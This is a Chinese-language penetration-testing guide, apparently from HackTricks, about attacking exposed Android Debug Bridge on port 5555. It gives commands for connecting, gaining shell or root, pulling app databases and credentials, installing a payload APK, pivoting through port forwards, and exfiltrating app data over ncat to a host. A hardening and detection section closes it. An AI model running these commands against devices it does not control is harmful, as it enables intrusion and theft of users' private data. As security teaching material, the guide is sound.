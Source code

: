 # 5555 - Android Debug Bridge

{{#include ../banners/hacktricks-training.md}}

## 基本信息

来自 [the docs](https://developer.android.com/studio/command-line/adb):

Android Debug Bridge (adb) 是一个命令行工具，用于与基于 Android 的设备和模拟器进行通信。典型操作包括安装软件包、调试和获取设备上的交互式 Unix shell。

- 历史默认 TCP 端口：5555（经典的 "adb tcpip" 模式）。
- 现代无线调试（Android 11+）使用 TLS 配对和 mDNS 服务发现。连接端口是动态的，通过 mDNS 发现；它可能不是 5555。配对通过 adb pair host:port 然后 adb connect 完成。有关攻击性影响的说明见下文。

示例 nmap 指纹：
```
PORT     STATE SERVICE VERSION
5555/tcp open  adb     Android Debug Bridge device (name: msm8909; model: N3; device: msm8909)
```
## 连接

如果您发现 ADB 被暴露并且可以访问，请尝试快速连接和枚举：
```bash
adb connect <ip>[:<port>]      # Default is 5555 for classic mode
adb devices -l                 # Confirm it shows as "device" (not unauthorized/offline)
adb shell                      # Get an interactive shell (uid usually shell)
whoami; id; getprop ro.debuggable ro.secure service.adb.tcp.port
adb root || true               # Works on eng/userdebug/insecure builds, many emulators/IoT
```
- 如果设备强制执行 ADB 认证 (ro.adb.secure=1)，您需要预先授权 (USB RSA 认证) 或使用 Android 11+ 无线调试配对 (这需要在设备上显示的一次性代码)。
- 一些厂商镜像、工程/用户调试版本、模拟器、电视、机顶盒和开发工具包在没有认证或以 root 身份运行 adbd 的情况下暴露 adbd。在这些情况下，您通常会直接进入 shell 或 root shell。

有关一般 ADB 命令的参考，请参见：

{{#ref}}
../mobile-pentesting/android-app-pentesting/adb-commands.md
{{#endref}}

## 快速后渗透

一旦您获得 shell，验证权限和 SELinux 上下文：
```bash
id; getenforce; getprop ro.build.type ro.product.model ro.build.fingerprint
```
### 枚举和捕获数据

- 列出第三方应用和路径：
```bash
pm list packages -3
pm path <pkg>
```
- 如果你有 root 权限（adb root 或 su 有效），你可以直接访问 /data。如果没有，建议对可调试的应用使用 run-as：
```bash
# 无需 root，针对可调试应用
run-as <pkg> sh -c 'cd /data/data/<pkg> && tar cf - .' | tar xf - -C ./loot/<pkg>

# 有 root 权限
cp -a /data/data/<pkg> /sdcard/<pkg>
exit
adb pull "/sdcard/<pkg>"
```
- 有用的系统文档（需要 root）：
- /data/system/users/0/accounts.db 和相关的 AccountManager 数据
- /data/misc/wifi/（旧版本上的网络配置/密钥）
- /data/data/<pkg> 下的应用特定 SQLite 数据库和 shared_prefs

你可以用这个来检索敏感信息（例如，应用秘密）。有关 Chrome 数据考虑的说明，请参见 [这里](https://github.com/carlospolop/hacktricks/issues/274) 提到的问题。

### 代码执行和有效载荷传递

- 安装并自动授予运行时权限：
```bash
adb install -r -g payload.apk         # -g 授予清单中声明的所有运行时权限
adb shell monkey -p <pkg> -c android.intent.category.LAUNCHER 1
```
- 直接启动活动/服务/广播：
```bash
adb shell am start -n <pkg>/<activity>
adb shell am startservice -n <pkg>/<service>
adb shell am broadcast -a <action>
```

### 端口转发和跳板

即使没有 root，adb 也可以将本地端口转发到设备端口，反之亦然。这对于访问绑定在设备上的本地服务或将攻击者服务暴露给设备非常有用。

- 转发主机->设备（从主机访问设备本地服务）：
```bash
adb forward tcp:2222 tcp:22       # 如果设备运行 SSH（例如，Termux/Dropbear）
adb forward tcp:8081 tcp:8080     # 暴露应用的本地调试服务器
```
- 反向设备->主机（让设备访问主机上的服务）：
```bash
adb reverse tcp:1080 tcp:1080     # 设备应用现在可以将主机:1080 视为 127.0.0.1:1080
```
- 通过套接字进行文件外泄（不写入 sdcard）：
```bash
# 在主机上：监听
ncat -lvp 9000 > dump.tar
# 在设备上：将目录作为 tar 发送（根据需要使用 root 或 run-as）
adb shell "tar cf - /data/data/<pkg>" | ncat <HOST_IP> 9000
```

## 无线调试（Android 11+）

现代 Android 实现了带有设备端配对和 mDNS 发现的 TLS 保护无线调试：
```bash
# On the device: Developer options -> Wireless debugging -> Pair device with pairing code
# On attacker host (same L2 network, mDNS allowed):
adb pair <device_ip>:<pair_port>   # Enter the 6-digit code shown on device
adb mdns services                  # Discover _adb-tls-connect._tcp / _adb._tcp services
adb connect <device_ip>:<conn_port>
```
笔记
- 端口是动态的；不要假设为 5555。mDNS 服务名称如下：
- _adb-tls-pairing._tcp (配对)
- _adb-tls-connect._tcp (已配对连接)
- _adb._tcp (传统/明文)
- 如果 mDNS 被过滤，经典的 USB 辅助启用在某些版本上仍然有效：`adb tcpip 5555` 然后 `adb connect <ip>:5555`（直到重启）。

攻击性影响：如果您可以与设备 UI 交互（例如，物理访问或移动 MDM 配置错误）以启用无线调试并查看配对代码，则可以在没有电缆的情况下建立一个长期配对的 ADB 通道。一些 OEM 在工程/开发镜像中暴露 ADB 通过 TCP 而无需配对——始终检查。

## 加固 / 检测

防御者应假设任何可达的 adbd (TCP) 都是关键风险。

- 在不需要时禁用 ADB 和无线调试。在开发者选项中撤销 USB 调试授权。
- 确保网络策略阻止不受信任段的入站 TCP/5555 和基于 mDNS 的 ADB 发现。
- 在您控制的设备上：
```bash
settings put global adb_enabled 0
setprop service.adb.tcp.port -1   # 禁用 TCP 监听（或使用：adb usb）
stop adbd; start adbd             # 重启守护进程
```
- 监控公司网络上的 mDNS 记录 `_adb._tcp`、`_adb-tls-connect._tcp`、`_adb-tls-pairing._tcp`，并对意外的 5555 监听器发出警报。
- 清点不安全的构建：`getprop ro.debuggable`、`ro.build.type` 和 `ro.adb.secure`。

## Shodan

- android debug bridge
- port:5555 product:"Android Debug Bridge"

## 参考

- Android Developers – Android Debug Bridge (adb): https://developer.android.com/studio/command-line/adb
- AOSP – ADB over Wi‑Fi, pairing and mDNS service names: https://android.googlesource.com/platform/packages/modules/adb/+/refs/tags/android-vts-15.0_r2/docs/dev/adb_wifi.md
{{#include ../banners/hacktricks-training.md}}

